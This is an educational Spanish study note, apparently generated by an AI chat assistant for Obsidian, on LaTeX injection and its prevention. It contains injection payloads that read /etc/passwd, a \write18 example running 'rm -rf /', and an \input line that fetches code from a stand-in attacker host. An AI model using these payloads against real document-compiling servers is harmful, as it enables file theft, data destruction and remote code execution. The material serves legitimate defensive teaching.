


### **¿Qué es una Inyección LaTeX?**

Es un tipo de ataque en el que un atacante **inyecta código LaTeX malicioso** en una aplicación que genera documentos PDF o imágenes a partir de entradas de usuario. Esto puede permitir al atacante **ejecutar comandos en el servidor**, **robar datos** o **manipular el documento generado**.

---

### **¿Cómo funciona?**

1. **Entrada de usuario**:  
   La aplicación permite que los usuarios ingresen texto que se procesará en un documento LaTeX.

2. **Inyección**:  
   El atacante ingresa código LaTeX malicioso en lugar de texto normal. Por ejemplo:
   ```latex
   \input{/etc/passwd}
   ```

3. **Procesamiento**:  
   El servidor compila el código LaTeX y genera un documento PDF o imagen. Si no se valida la entrada, el código malicioso se ejecuta.

---

### **Ejemplo Práctico**

- **Escenario**: Una aplicación web que genera certificados en PDF a partir de entradas de usuario.
- **Código vulnerable**:
  ```latex
  \documentclass{article}
  \begin{document}
  Nombre: \textbf{Usuario}
  \end{document}
  ```
- **Ataque**:  
  El atacante ingresa el siguiente texto en el campo "Nombre":
  ```latex
  }\input{/etc/passwd}\textbf{
  ```
  - El código LaTeX resultante sería:
    ```latex
    \documentclass{article}
    \begin{document}
    Nombre: \textbf{}\input{/etc/passwd}\textbf{}
    \end{document}
    ```
  - Al compilar, el servidor incluye el contenido del archivo `/etc/passwd` en el PDF.

---

### **¿Por qué es peligroso?**

- **Ejecución de comandos**: El atacante puede ejecutar comandos en el servidor usando paquetes como `\write18`.
- **Exfiltración de datos**: Puede leer archivos sensibles del servidor.
- **Manipulación de documentos**: Puede alterar el contenido del documento generado.

---

### **¿Cómo prevenir Inyecciones LaTeX?**

1. **Validar Entradas**:  
   Asegúrate de que las entradas del usuario sean válidas y estén sanitizadas. Por ejemplo, elimina o escapa caracteres especiales como `\`, `{`, `}`.

2. **Usar Modo Seguro**:  
   Compila LaTeX en modo seguro para deshabilitar comandos peligrosos como `\input` y `\write18`.

3. **Limitar Permisos**:  
   Ejecuta el compilador LaTeX con permisos mínimos necesarios para reducir el impacto de un ataque.

4. **Usar Alternativas**:  
   Considera usar bibliotecas que generen PDFs directamente sin pasar por LaTeX, como `PDFKit` o `WeasyPrint`.

---

### **Resumen**

- **Inyección LaTeX**: Ataque donde el atacante inyecta código LaTeX malicioso para ejecutar comandos o robar datos.
- **Prevención**: Valida entradas, usa modo seguro y limita permisos.

---

### **Diagrama de Inyección LaTeX**




## **Inyección LaTeX: `\write18` y Explotación en Servidores Apache**

### **¿Qué es `\write18`?**

`\write18` es una funcionalidad de LaTeX que permite **ejecutar comandos del sistema operativo** durante la compilación de un documento. Esto puede ser extremadamente peligroso si un atacante logra inyectar código malicioso en un documento LaTeX.


### **¿Cómo funciona `\write18`?**

1. **Habilitación**:  
   Para que `\write18` funcione, el compilador LaTeX (como `pdflatex`) debe estar configurado en modo **no seguro** (es decir, con `--shell-escape` habilitado).

2. **Uso**:  
   El comando `\write18` ejecuta un comando del sistema directamente desde LaTeX. Por ejemplo:
   ```latex
   \write18{ls -la}
   ```
   Esto listaría los archivos en el directorio actual durante la compilación.

---

### **Ejemplo de Ataque con `\write18`**

- **Escenario**: Un servidor web permite a los usuarios subir archivos LaTeX para generar PDFs.
- **Ataque**: El atacante sube un archivo LaTeX con el siguiente contenido:
  ```latex
  \documentclass{article}
  \begin{document}
  \write18{rm -rf /}  // ¡Peligro! Esto borraría todo en el servidor.
  \end{document}
  ```
  - Si el servidor compila el archivo con `--shell-escape`, el comando `rm -rf /` se ejecutará, borrando archivos en el servidor.

---

### **Otras Formas de Burlar un Servidor Apache**

Además de `\write18`, hay otras técnicas que un atacante podría usar para explotar un servidor Apache que permita la compilación de LaTeX:

#### 1. **Inyección de Comandos en Archivos de Configuración**
   - Si el servidor Apache permite la carga de archivos de configuración personalizados, un atacante podría inyectar comandos maliciosos en estos archivos.
   - Ejemplo: Inyectar un comando en `.htaccess` para redirigir tráfico o ejecutar scripts.

#### 2. **Explotación de Permisos de Archivos**
   - Si el servidor Apache tiene permisos demasiado abiertos, un atacante podría modificar archivos críticos o subir scripts maliciosos.
   - Ejemplo: Subir un script PHP malicioso y ejecutarlo a través de una solicitud HTTP.

#### 3. **Ataques de Inclusión de Archivos**
   - Si el servidor permite la inclusión de archivos externos, un atacante podría incluir archivos maliciosos desde una URL remota.
   - Ejemplo: Inyectar `\input{http://atacante.com/malicioso.tex}` en un archivo LaTeX.

#### 4. **Uso de Expresiones Regulares Peligrosas**
   - Si el servidor usa expresiones regulares inseguras para validar entradas, un atacante podría inyectar código malicioso.
   - Ejemplo: Usar `\catcode` para cambiar el comportamiento de caracteres especiales en LaTeX.

### **Resumen**

- **`\write18`**: Permite ejecutar comandos del sistema durante la compilación de LaTeX. Es peligroso si no se configura correctamente.
- **Otras técnicas**: Inyección de comandos en archivos de configuración, explotación de permisos, inclusión de archivos remotos.
- **Prevención**: Deshabilitar `\write18`, validar entradas, limitar permisos y usar sandboxing.

---

### **Diagrama de Ataque con `\write18`**



---

### **Consejo Final**

Nunca confíes en las entradas del usuario. Siempre valida y sanitiza los datos antes de procesarlos, y asegúrate de que el entorno de compilación esté bien configurado y aislado.

---

¡Y eso es todo! Un apunte hermoso, claro y fácil de entender para tu Obsidian. 😊 Si necesitas más detalles o ajustes, no dudes en pedírmelo.


[[OWASP]]